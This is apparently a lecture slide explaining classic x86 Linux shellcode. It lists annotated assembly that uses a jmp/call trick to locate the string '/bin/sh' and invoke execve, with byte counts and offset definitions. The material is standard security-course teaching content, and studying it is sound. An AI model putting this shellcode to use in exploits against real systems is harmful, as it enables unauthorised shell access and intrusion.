

jmp call-offset                  # (2)
popl %ebx                        # (1) get string into ebx
movb $0x0, string-len(%ebx)      # (4) null terminate string
movl %ebx, array-0-offset(%ebx)  # (3) store address of string
movl $0x0, array-1-offset(%ebx)  # (7) null terminate array
movl $0x0, %edx                  # (5) put a null in edx
leal array-0-offset(%ebx), %ecx  # (3) put array in ecx
movl $0xb, %eax                  # (5) set syscall number for execve
int  $0x80                       # (2) trap to kernel
movl $0x0, %ebx                  # (5) set exit status of 0
movl $0x1, %eax                  # (5) set syscall number for exit
int  $0x80                       # (2) trap to kernel
call jump-offset                 # (5)
.string "/bin/sh"
/bin/sh\0addrnull
string-len: 0x7 since the string is 7 characters long
array-0-offset: 0x8 to begin the array just after the null character in the string
array-1-offset: 0xc, 4 bytes after array-0-offset